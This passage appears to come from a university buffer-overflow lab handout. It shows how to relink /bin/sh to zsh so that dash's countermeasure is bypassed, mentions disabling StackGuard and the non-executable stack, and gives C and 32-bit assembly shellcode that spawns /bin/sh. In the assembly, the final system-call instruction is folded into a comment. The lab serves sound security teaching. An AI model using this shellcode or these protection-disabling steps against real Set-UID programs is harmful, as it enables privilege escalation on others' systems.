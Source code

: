 Since our victim program is a Set-UID program, and our attack relies on running /bin/sh, the countermeasure in /bin/dash makes our attack more difficult. Therefore, we will link /bin/sh to another shell that does not have such a countermeasure (in later tasks, we will show that with a little bit more effort, the countermeasure in /bin/dash can be easily defeated). 

Install `zsh` (Z Shell).

```
sudo apt install zsh
```

Now, the following command can be used to link /bin/sh to zsh:
```
$ sudo ln -sf /bin/zsh /bin/sh
```
StackGuard and Non-Executable Stack. These are two additional countermeasures implemented in the system. They can be turned off during the compilation. We will discuss them later when we compile the vulnerable program.

## 3) Task 1 (2pts): Getting Familiar with Shellcode
---
The ultimate goal of buffer-overflow attacks is to inject malicious code into the target program, so the code can be executed using the target program's privilege. Shellcode is widely used in most code-injection attacks. Let us get familiar with it in this task.

### 3.1 The C Version of Shellcode

A shellcode is basically a piece of code that launches a shell. If we use C code to implement it, it will look like the following:
```c
#include <stdio.h>

int main() {   
    char \*name[2];
    name[0] = "/bin/sh"; name[1] = NULL;
    execve(name[0], name, NULL);
}
```

Unfortunately, we cannot just compile this code and use the binary code as our shellcode (detailed explanation is provided in the recommended textbook). The best way to write a shellcode is to use assembly code. In this lab, we only provide the binary version of a shellcode, without explaining how it works (it is non-trivial).

### 3.2 32-bit Shellcode
```asm
; Store the command on stack
xor eax, eax
push eax
push "//sh"
push "/bin"
mov ebx, esp    ; ebx -- "/bin//sh": execve()'s 1st argument

; Construct the argument array argv[]
push eax        ; argv[1] = 0
push ebx        ; argv[0] --> "/bin//sh"
mov ecx, esp    ; ecx --> argv[]: execve()'s 2nd argument

; For environment variable
xor edx, edx    ; edx = 0: execve()'s 3rd argument

; Invoke execve()
xor eax, eax
mov al, 0x0b    ;execve()'s system call number int 0x80
```
